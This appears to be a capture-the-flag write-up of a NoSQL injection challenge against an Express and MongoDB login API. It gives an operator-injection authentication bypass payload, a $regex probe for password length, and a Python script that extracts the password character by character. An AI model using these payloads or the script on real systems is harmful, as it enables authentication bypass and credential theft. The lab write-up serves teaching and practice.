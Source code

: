 # NoSQL Injection

### Challenge
Provide Text :  The Mark LXXXV suit needs an urgent firmware upgrade.
![[Pasted image 20220224071532.png]]

### Approach

#### Application Overview

- Application Stack
	WebServer : Express (Node.js web application server )
	![[Pasted image 20220224071626.png]]
	Fevicon : MongoDB (NoSQL Database)
	![[Pasted image 20220224061124.png]]

- App Intraction
	The main.js send POST request to API /api/login with params ```username``` and ```password``` and response is not verbose
	![[Pasted image 20220224062528.png]]

	``` JavaScript
	const login = document.getElementById('login');
	const response = document.getElementById('response');

	login.addEventListener('submit', e => {

		e.preventDefault();

		fetch('/api/login', {
			method: 'POST',
			body: new URLSearchParams(new FormData(e.target))
		})
		.then(resp => resp.json())
		.then(data => {
			if (data.logged) {
				login.remove();
				response.innerHTML = data.message;
			} else {
				response.innerHTML = data.message;
			}
		});
	});
	```

#### Exploit

MongoDB is a NoSQL Database which uses JSON Object similar syntax to store data as documents. MongoDB uses BSON (Binary JSON) data format so the direct SQL injection is not possible, but some JSON and unserialized JavaScript expressions are permitted. For MongoDB, the most common such operator is `$where` which filters the results similarly to WHERE in SQ.
If the request body is encoded as JSON and the password is changed from a string to a query expression that evaluates to true, the password check becomes irrelevant and an attacker can authenticate themself as any user.

- Validating NoSQL injection
Sending the following query string as the NodeJS module `qs` parses the query string to the JSON and we have injection validated

```
username[$eq]=admin&password[$ne]=1
```

![[Pasted image 20220224064240.png]]

- Guess the legth of password
As the flag is the password and we have to sort of perform a brutforce to extract the password.

\$regex will be used to perform regular expression search ```password[$regex]=.{n} ```, where n is the +ive number.  
.{n} will match to all the value till the length of the password and after that return error.

Using Burp intruder

![[Pasted image 20220224065002.png]]

The response leght after 45 is 233 which means password length in 45 characters.

![[Pasted image 20220224065122.png]]

- Retrieving flag

The flag will be in format knox{XXXXXXXXXXXXX}, these are 6 characters and total lenght of password is 45 thus 39 character left.

Using `$regex`  we can retrieve the password as well.
```username=admin&password[$regex]=knox\{a.*```
The regex will return true if first character in braces is a and anything after that, thus we use the same logic in our code.


```Python
#!/usr/bin/python3  
import re  
import requests  
  
def main():  
	url = 'http://:9000/api/login'
	proxy= {  
	'http': 'http://127.0.0.1:8080'
	}
	headers = {'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8'}  
	fail_msg = re.compile('Failed')  
	flag = "knox\{"  
	mydata = "username=admin&password[$regex]="  
	alphabates= ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z','0','1','2','3','4','5','6','7','8','9','_','A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z']

	print("Starting printing flag")  

	for r in range(39):  
		for i in alphabates:  
			postdata = mydata+flag+i+'.*'  
			#print(postdata)  
			res=requests.post(url,headers=headers,data = postdata,proxies=proxy)  
			checkresp = re.search('Failed',res.text)  
			if (checkresp):  
			#print('wrong')  
				pass  
			else:  
				flag=flag+i  
				print(flag,end='\r')  
				break  
				print(flag+'\}')  
  
if __name__ == '__main__':  
	main()
```
